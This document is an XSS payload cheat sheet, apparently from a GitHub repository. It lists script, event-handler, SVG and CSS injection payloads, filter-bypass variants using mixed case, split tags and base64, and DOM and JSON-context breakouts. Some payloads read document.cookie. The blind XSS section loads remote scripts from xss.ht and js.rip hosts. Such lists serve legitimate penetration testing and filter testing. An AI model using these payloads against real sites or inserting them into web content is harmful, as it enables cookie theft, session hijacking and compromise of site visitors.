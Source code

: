 # Basic XSS Payloads

```
<script>alert(1)</script>
"><script>alert(1)</script>
"><img src=x onerror=alert(1)>
<svg/onload=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
<math><mi//xlink:href="data:x,<script>alert(1)</script>">
contentvisibilityautostatechange='alert(1)'
via invalid tag --
<22> foo="bar<h1>">test</22>
<22 foo="bar<img src=x onerror="alert()">test</22>
"-prompt(8)-"
";a=prompt,a()//
</scrip</script>t><img src =q onerror=prompt(8)>
javascript:alert(1)
```

# Bypassing Filters
```
<scr<script>ipt>alert(1)</scr</script>ipt>
<IMG SRC=JaVaScRiPt:alert(1)>
<svg><script xlink:href=data:,alert(1)></script></svg>
<svg><a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">Click</a></svg>
<details open ontoggle=confirm(1)>
onToggLe='let%20x=%60javascri%60%3Blet%20y=%60pt:aler%60%3Blet%20z=%60t()%60%3Blet%20a=x+y+z%3Blocation=a'> ==>  onToggLe='let x=`javascri`;let y=`pt:aler`;let z=`t()`;let a=x y z;location=a'>

```
# DOM XSS Payloads (Assume input is reflected into JS)
```
';alert(1);// 
";alert(1);// 
</script><script>alert(1)</script>
'+document.domain+' 
"><svg onload=confirm(document.cookie)>
```
# JSON/JS Injection Payloads (Context: inside a JSON/JS response)
```
"};alert(1);//
');alert(1);//
",";alert(1);//
```
# XSS in CSS
```
<!DOCTYPE html>
<html>
<head>
<style>
div  {
    background-image: url("data:image/jpg;base64,<\/style><svg/onload=alert(document.domain)>");
    background-color: #cccccc;
}
</style>
</head>
  <body>
    <div>lol</div>
  </body>
</html>
```
# Blind XSS
- You can use your own local host to get an alert pop OR
  use https://xsshunter.com/app
```
"><script src="https://js.rip/<custom.name>"></script>
"><script src=//<custom.subdomain>.xss.ht></script>
<script>$.getScript("//<custom.subdomain>.xss.ht")</script>
```
if there is **encodeurlcomponent**() function:

it escapes all the chars but not 
```A–Z a–z 0–9 - _ . ! ~ * ' ( )```

References:

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html



